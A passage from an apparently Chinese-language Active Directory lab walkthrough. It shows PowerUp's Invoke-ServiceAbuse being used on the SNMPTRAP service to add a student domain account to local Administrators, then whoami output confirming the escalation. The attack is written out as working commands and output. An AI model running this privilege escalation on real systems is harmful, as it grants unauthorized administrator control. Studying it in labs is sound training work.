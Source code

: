 选择SNMPTRAP进行权限提升
```
PS C:\ad> Invoke-ServiceAbuse -Name 'SNMPTRAP' -UserName 'dcorp\student366'
WARNING: Waiting for service 'SNMP Trap (SNMPTRAP)' to stop...
WARNING: Waiting for service 'SNMP Trap (SNMPTRAP)' to stop...

ServiceAbused Command
------------- -------
SNMPTRAP      net localgroup Administrators dcorp\student366 /add

```

然后以管理员身份打开一个powershell的新窗口，输入当前学生账号和密码，如果能打开，说明提权成功
```
PS C:\ad> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ==============================================
dcorp\student366 S-1-5-21-1874506631-3219952063-538504511-45144


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ==============
=================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory grou
p, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory grou
p, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                  Mandatory grou
p, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory grou
p, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory grou
p, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory grou
p, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory grou
p, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory grou
p, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-1874506631-3219952063-538504511-1116 Mandatory grou
p, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory grou
p, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

```